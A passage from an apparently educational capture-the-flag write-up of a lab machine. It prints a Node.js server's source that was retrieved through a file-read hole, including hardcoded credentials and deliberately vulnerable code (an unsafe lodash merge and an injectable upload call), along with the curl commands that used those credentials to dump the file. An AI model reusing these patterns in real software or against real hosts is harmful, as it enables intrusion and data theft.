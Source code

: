 ```
{"ok":true,"content":"var root = require(\"google-cloudstorage-commands\");\nconst express = require('express');\nconst { exec } = require(\"child_process\");     \nconst bodyParser = require('body-parser');     \nconst _ = require('lodash');                                                                  \nconst app = express();\nvar fs = require('fs');\n                                                                                              \nconst users = [                                                                               \n  {name: 'felamos', password: 'Winter2021'},\n  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},      \n];\n\nlet messages = [];                             \nlet lastId = 1;                                \n                                                                                              \nfunction findUser(auth) {                                                                     \n  return users.find((u) =>                                                                    \n    u.name === auth.name &&                                                                   \n    u.password === auth.password);                                                            \n}                                    \n                                               \napp.use(bodyParser.json());                                                                   \n                                               \napp.get('/', (req, res) => {                   \n  res.send(messages);                                                                         \n});                                                                                           \n                                                                                              \napp.put('/', (req, res) => {   \n  const user = findUser(req.body.auth || {});                                                 \n                                               \n  if (!user) {                                 \n    res.status(403).send({ok: false, error: 'Access denied'});                                \n    return;\n  }\n\n  const message = {\n    icon: '__',\n  };\n\n  _.merge(message, req.body.message, {\n    id: lastId++,\n    timestamp: Date.now(),\n    userName: user.name,\n  });\n\n  messages.push(message);\n  res.send({ok: true});\n});\n\napp.delete('/', (req, res) => {\n  const user = findUser(req.body.auth || {});\n\n  if (!user || !user.canDelete) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n  messages = messages.filter((m) => m.id !== req.body.messageId);\n  res.send({ok: true});\n});\napp.post('/upload', (req, res) => {\n  const user = findUser(req.body.auth || {});\n  if (!user || !user.canUpload) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n\n  filename = req.body.filename;\n  root.upload(\"./\",filename, true);\n  res.send({ok: true, Uploaded_File: filename});\n});\n\napp.post('/todo', (req, res) => {\n\tconst user = findUser(req.body.auth || {});\n\tif (!user) {\n\t\tres.status(403).send({ok: false, error: 'Access denied'});\n\t\treturn;\n\t}\n\n\tfilename = req.body.filename;\n        testFolder = \"/usr/src/app\";\n        fs.readdirSync(testFolder).forEach(file => {\n                if (file.indexOf(filename) > -1) {\n                        var buffer = fs.readFileSync(filename).toString();\n                        res.send({ok: true, content: buffer});\n                }\n        });\n});\n\napp.listen(3000);\nconsole.log('Listening on port 3000...');\n"}

```

The formatting is a mess, but I’ll use `jq` to pull the string in `content` and print it raw (`-r`):

```

oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}' | jq -r '.content'
var root = require("google-cloudstorage-commands");
const express = require('express');                              
const { exec } = require("child_process");     
const bodyParser = require('body-parser')
...[snip]...
oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}' | jq -r '.content' > index.js

```
